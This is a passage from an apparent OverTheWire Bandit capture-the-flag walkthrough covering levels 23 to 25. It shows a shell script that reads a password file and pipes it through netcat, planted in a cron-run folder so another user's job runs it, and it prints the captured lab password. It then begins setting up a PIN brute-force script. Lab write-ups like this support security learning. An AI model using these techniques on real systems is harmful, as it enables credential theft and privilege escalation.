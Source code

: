Lets first setup a folder in `/tmp` where we can work in. Create `give_pass.sh` , setup execution rights and open it in vim.

```
bandit23@bandit~$ mkdir /tmp/giv_pass
bandit23@bandit~$ cd /tmp/giv_pass
bandit23@bandit/tmp/giv_pass$ touch give_pass.sh
bandit23@bandit/tmp/giv_pass$ chmod +x give_pass.sh
bandit23@bandit/tmp/giv_pass$ vim give_pass.sh
```

Lets keep this really simple and just `cat` the password file and redirect this to `nc` which will connect to localhost on port `1337`.

```
#/bin/bash
cat /etc/bandit_pass/bandit24 | nc 127.0.0.1 1337
```

Now lets start `tmux` and create 2 panes.

```
bandit23@bandit/tmp/giv_pass$ tmux
CTRL + B SHIFT "
```

In the bottom pane I start a `nc` listener on port `1337`. I then copy over the `give_pass.sh` script to the ACE folder. After about 1 min we are greeted with the password of bandit24.

```
bandit23@bandit/tmp/giv_pass$ cp give_pass.sh /var/spool/bandit24/give_pass.sh
bandit23@bandit/tmp/giv_pass$
────────────────────────────────────
bandit23@bandit/tmp/giv_pass$ nc -l -p 1337
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
^d
^d
[exited]
bandit23@bandit/tmp/giv_pass$ logout
Connection to bandit.labs.overthewire.org closed.
```

### Bandit Level 24 → Level 25

**Level Goal:**
*A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
*

Okay, so we need to create a pretty basic brute forcing tool. We need to loop over every possible 4-digit pincode ( `0000` and `9999` ). Lets setup a folder in /tmp, create brute_port.sh, setup execution rights and open it in vim.

```
bandit23@bandit~$ ssh bandit24@bandit.labs.overthewire.org -p 2220

bandit24@bandit~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
bandit24@bandit~$ mkdir /tmp/brute_port
bandit24@bandit~$ cd /tmp/brute_port
bandit24@bandit/tmp/brute_port$ touch brute_port.sh
bandit24@bandit/tmp/brute_port$ chmod +x brute_port.sh
bandit24@bandit/tmp/brute_port$ vim brute_port.sh
```
